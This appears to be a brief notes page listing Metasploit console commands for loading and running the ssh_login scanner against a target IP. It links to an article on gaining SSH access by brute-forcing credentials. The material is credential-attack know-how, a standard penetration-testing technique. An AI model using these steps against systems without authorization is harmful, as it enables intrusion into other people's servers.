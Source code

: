 ```
$: msfupdate
```

```
$: msfconsole
```

```
msf6> search ssh_login
```

```
msf6> use auxiliary/scanner/ssh/ssh_login
```

```
msf6 auxiliary(scanner/ssh/ssh_login) > options
```

```
msf6 auxiliary(scanner/ssh/ssh_login) > set rhost ip
```

```
msf6 auxiliary(scanner/ssh/ssh_login) > set stop_on_success true
```


```
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
```


```
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

[https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)


